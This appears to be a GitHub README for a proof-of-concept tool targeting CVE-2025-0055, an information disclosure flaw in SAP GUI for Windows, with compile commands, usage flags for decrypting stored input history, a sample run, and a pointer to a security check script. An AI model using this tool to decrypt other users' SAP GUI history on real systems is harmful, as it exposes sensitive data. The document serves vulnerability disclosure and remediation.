

# CVE-2025-0055 - [Information Disclosure vulnerability in SAP GUI for Windows]

- CVE ID: CVE-2025-0055
- CVSS Score: 6.0
- CVSS Vector: CVSS:3.1/AV:L/AC:L/PR:H/UI:N/S:C/C:H/I:N/A:N
- Product Name: [SAP GUI for Windows]
- Access Vector: [Local]
- Authentication Required: [No]
- Exploitability: [Medium]

## Description
SAP GUI for Windows stores user input on the client PC to improve usability. Under very specific circumstances an attacker with administrative privileges or access to the victim's user directory on the Operating System level would be able to read this data. Depending on the user input provided in transactions, the disclosed data could range from non-critical data to highly sensitive data, causing high impact on confidentiality of the application

## PoC / Details
### compile the source code
- Linux/macOS
```bash
x86_64-w64-mingw32-g++ sap_gui_history_decrypt.cpp -o decrypt_gui_history.exe -ladvapi32 -static
```
- Windows
```cmd
cl /EHsc sap_gui_history_decrypt.cpp /link advapi32.lib
```

### how to use
- Decryption
```cmd
./decrypt_gui_history.exe /d <hex input>
```

- Encryption
```cmd
./decrypt_gui_history.exe /e <string>
```

- Specify User to be used for decryption/encryption
```cmd
./decrypt_gui_history.exe /u <username>
```

- Example usage:
```
.\decrypt_gui_history.exe /d 05105c0e633fc5a3
[+] windows username: SECURITY
[+] transformed username: FSRKIAMS
[*] encryption key created successfully!
[+] decrypted data: CCCCCCCCPΦ╓ï
```
## Remediation
There is a SAP GUI Security check script (Powershell) available to check the security of SAP GUI for Windows.

### how to run
```powershell
.\sap_gui_security_check.ps1
```


## References
- https://nvd.nist.gov/vuln/detail/CVE-2025-0055
- https://me.sap.com/notes/3472837
